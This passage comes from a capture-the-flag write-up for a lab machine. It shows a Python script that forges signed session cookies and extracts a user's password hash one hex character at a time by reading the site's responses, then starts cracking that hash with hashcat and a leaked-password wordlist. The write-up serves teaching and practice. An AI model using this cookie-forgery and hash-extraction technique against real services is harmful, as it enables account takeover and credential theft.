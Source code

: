         return {"download_session": enc_cookie, "download_session.sig": sig}

    if len(sys.argv) == 1:
        user_id = 1
    else:
        user_id = int(sys.argv[1])

    password = ""
    while True:
        done = True
        for c in HEX_CHARS:
            cookies = make_cookies(user_id, password + c)
            print(f"\r{password}{c}", end="")
            resp = requests.get('http://download.htb/home/', cookies=cookies)
            if "No files found" not in resp.text:
                password += c
                done = False
                break
        if done:
            print(f"\r{password}   ")
            break



The `make_cookies` function will generate the cookie and signature,
returning a dictionary with the cookie names and values. In the main
program, I'll start with an empty password, and loop over each possible
hex character (I'm assuming this is a hash) and if it gets back a page
without "No files found", then I know that's the next character in the
password. It appends that character to the password, and starts the loop
again. Only if it tries all the characters and finds no match does it
exit.

It takes about a minute to run:

![](/img/download-password-bruteforce.gif)

I can use the same script to get hashes for the other users as well, but
I'm most interested in wesley as they are also the author of the
package, and therefore most likely to have an account on Download.

### SSH

#### Crack Hash

I'll save that hash to a file and pass it to `hashcat`. The detect mode
comes up with a bunch of formats that it could be:



    $ hashcat wesley.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
    hashcat (v6.2.6) starting
    ...[snip]...
    The following 11 hash-modes match the structure of your input hash:
